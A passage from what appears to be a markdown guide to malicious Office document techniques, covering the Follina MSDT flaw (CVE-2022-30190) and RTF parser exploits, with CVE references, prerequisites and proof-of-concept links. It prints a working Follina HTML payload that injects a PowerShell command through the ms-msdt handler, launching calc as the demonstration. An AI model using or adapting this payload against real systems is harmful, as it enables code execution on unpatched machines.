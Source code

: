 - Worked even in **Protected View** or **Preview Pane**.
- Microsoft patched this in June 2022, but many systems remain unpatched.
- Can be embedded into `.docx`, `.rtf`, or `.html` files.
```html
<script>
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=calc?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression('Start-Process calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
```

**Resources:**
- [POC john hammond YOUTUBE](https://youtu.be/dGCOhORNKRk?si=tmuWOaOwlfocuS_6)
- [exploiting 0-day-msdt-follina-vulnerability CVE-2022–30190](https://medium.com/@chemiron2020/exploiting-0-day-msdt-follina-vulnerability-4fd7d518435f)

#### E.  RTF exploits  

RTF (Rich Text Format) files can include **object embeddings** and exploit **parsing vulnerabilities** in Office or Windows components.

**How It Works**

- Attacker crafts a malicious `.rtf` file (e.g., with an embedded OLE object or crafted control word).
- When the user opens or sometimes just **previews** the RTF file in Explorer or Word, the vulnerable code is triggered.
- Payload is often an **executable**, **shellcode**, or **MSHTML/Equation Editor** exploit.

**Key Notes**

- Preview-based RCE makes it **extremely dangerous**.
- CVEs like **CVE-2017-11882** (Equation Editor) and **CVE-2023-21716** (heap corruption in RTF parser) exploited this class.
- Very stealthy and can be delivered through email with `.rtf` attachment.    

**Resources:**
- [Malicious RTF document leading to NetwiredRC and Quasar RAT ](https://www.zscaler.com/blogs/security-research/malicious-rtf-document-leading-netwiredrc-and-quasar-rat)
- [CVE-2017-11882 YOUTUBE](https://youtu.be/iqwvECQD_io?si=eAy9WLYzNFbIs38n)



---
## Prerequisite

- Target OS: Windows
- User Interaction:  in a typical scenario user must click on the malicious document or preview it (may require user to enable macros)
- Network Connectivity: Often required (for downloading payloads)  
- Dependencies or Tools:
    - Windows machine with office software installed  (to craft the malicious office document file)


---
## Steps to Implement
